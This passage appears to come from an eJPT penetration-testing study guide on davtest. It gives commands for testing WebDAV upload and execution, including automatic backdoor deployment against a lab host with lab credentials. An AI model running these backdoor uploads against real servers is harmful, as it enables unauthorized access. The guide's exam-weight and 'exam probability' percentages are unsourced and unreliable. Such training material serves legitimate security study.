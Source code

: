 ### **Example 3: Backdoor Deployment Testing**
```bash
# Advanced testing with automatic backdoor deployment
davtest -sendbd auto -auth bob:password_123321 -directory exploit -url http://demo.ine.local/webdav

# This command will:
# 1. Create 'exploit' directory
# 2. Upload various backdoor files
# 3. Test execution capabilities
# 4. Report successful backdoor deployments
```

---

### **Example 4: Clean Testing Environment**
```bash
# Professional testing with cleanup
davtest -auth bob:password_123321 -directory pentest_$(date +%s) -cleanup -url http://demo.ine.local/webdav

# Benefits:
# - Creates unique directory with timestamp
# - Performs complete assessment
# - Automatically removes test files
# - Leaves no traces for ethical testing
```

---

## 🎯 eJPT Exam Mastery Section

### **📊 Exam Weight Distribution:**
- **WebDAV Discovery & Assessment:** 30% of web application testing
- **File Upload Vulnerability Testing:** 35% of exploitation scenarios  
- **Authentication Testing:** 20% of access control evaluation
- **Automated Scanning Proficiency:** 25% of tool usage efficiency

### **🏆 Must-Master Commands for eJPT Success:**

#### **Level 1 - Essential (90% exam probability):**
```bash
# Basic unauthenticated test - ALWAYS START HERE
davtest -url http://target/webdav

# Authenticated full assessment - CORE SKILL
davtest -auth username:password -url http://target/webdav
```

#### **Level 2 - Important (60% exam probability):**
```bash
# Custom directory testing - AVOID CONFLICTS
davtest -directory custom_test -auth creds -url http://target/webdav

# Backdoor deployment testing - ADVANCED EXPLOITATION
davtest -sendbd auto -auth creds -url http://target/webdav
```
